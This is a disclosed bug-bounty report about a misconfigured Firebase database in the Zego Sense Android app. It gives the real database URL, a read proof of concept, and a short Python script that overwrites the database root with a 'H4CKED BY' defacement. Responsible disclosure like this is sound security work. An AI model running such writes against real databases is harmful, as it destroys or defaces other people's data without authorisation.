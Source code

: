 # Firebase Database Takeover in Zego Sense Android app

## Report Details
- **Report ID**: 1065134
- **URL**: https://hackerone.com/reports/1065134
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-12-23T13:45:53.246Z
- **Disclosed**: 2021-06-23T16:04:36.189Z

## Reporter
- **Username**: sheikhrishad0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zego

## Vulnerability Information
Hello Team,

Summary:
publicly available Firebase Database (api-project-615509201590.firebaseio.com)

Platform Affected: [android]
com.zegocover.zego

Steps To Reproduce:

in res/values/strings.xml

    <string name="firebase_database_url">https://api-project-615509201590.firebaseio.com</string>

POC:

    Go to https://api-project-615509201590.firebaseio.com/.json

{F1127099}

Exploit:

    import requests
    data= {"Exploit":"Successfull", "H4CKED BY": "Sheikh Rishad"}
    reponse = requests.put("https://api-project-615509201590.firebaseio.com/.json", json=data)


References:


There are guidelines available by Firebase to resolve the insecurities and misconfiguration, please follow this link:
https://firebase.google.com/docs/database/security/resolve-insecurities

Regards,
Sheikh Rishad

## Impact

This is quite serious because by using this database attacker can use this for malicious purposes and also an attacker can track this database if zego uses it for future perspective and at that time it will be much easier for the attacker to steal the data from this repository and later it will harm the reputation of the zego.

So please immediately change the rule of the database to private so that nobody can able to access it outside.

## Attachments
- poc.PNG
